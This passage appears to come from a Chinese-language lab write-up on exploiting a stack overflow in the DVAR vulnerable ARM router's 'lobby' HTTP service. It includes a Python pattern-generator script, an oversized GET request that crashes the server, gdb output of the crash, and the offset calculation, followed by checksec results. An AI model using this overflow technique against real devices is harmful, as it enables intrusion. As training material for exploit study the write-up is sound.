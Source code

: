 ```
import os
import string
import sys
num = int(sys.argv[1])
overflowstr = ""
circle=num/4+1

for i in string.ascii_uppercase:
    for j in string.ascii_lowercase:
        for k in string.digits:
            for p in string.ascii_uppercase:    
                circle-=1
                if circle == -1:
                    print overflowstr
                    exit()
                overflowstr+=i+j+k+p
```

发送数据包

GET Aa0AAa0BAa0CAa0DAa0EAa0FAa0GAa0HAa0IAa0JAa0KAa0LAa0MAa0NAa0OAa0PAa0QAa0RAa0SAa0TAa0UAa0VAa0WAa0XAa0YAa0ZAa1AAa1BAa1CAa1DAa1EAa1FAa1GAa1HAa1IAa1JAa1KAa1LAa1MAa1NAa1OAa1PAa1QAa1RAa1SAa1TAa1UAa1VAa1WAa1XAa1Y HTTP/1.1<br>
Host: 1.1.1.1

在DVAR中用gdb lobby pid，发送数据包，程序中断在0x41513160

GDB will be unable to debug shared library initializers

and track explicitly loaded dynamic code.<br>
0x4004d910 in ?? ()<br>
(gdb) continue<br>
Continuing.

Program received signal SIGSEGV, Segmentation fault.<br>
0x41513160 in ?? ()<br>
(gdb) Quit<br>
(gdb)

这里需要注意，最后一位数字不可信，搜索前面三个字符，a1Q,最后确定为a1QA；’A’=0x61,1用作表示进入thumb模式，所以最后一位变成了0x60。

所以溢出点就确定了

GET Aa0AAa0BAa0CAa0DAa0EAa0FAa0GAa0HAa0IAa0JAa0KAa0LAa0MAa0NAa0OAa0PAa0QAa0RAa0SAa0TAa0UAa0VAa0WAa0XAa0YAa0ZAa1AAa1BAa1CAa1DAa1EAa1FAa1GAa1HAa1IAa1JAa1KAa1LAa1MAa1NAa1OAa1PAa1QA HTTP/1.1

### <a class="reference-link" name="4.2%20%E8%B0%83%E8%AF%95%E5%BA%94%E8%AF%A5%E6%B3%A8%E6%84%8F%E7%9A%84"></a>4.2 调试应该注意的

**<a class="reference-link" name="4.2.1%20%E4%BF%A1%E6%81%AF%E6%90%9C%E9%9B%86"></a>4.2.1 信息搜集**

搜集安全信息

gef➤ checksec<br>
[+] checksec for ‘/tmp/gef/341//proc/341/exe’<br>
Canary : No<br>
NX : No<br>
PIE : No<br>
Fortify : No<br>
RelRO : No
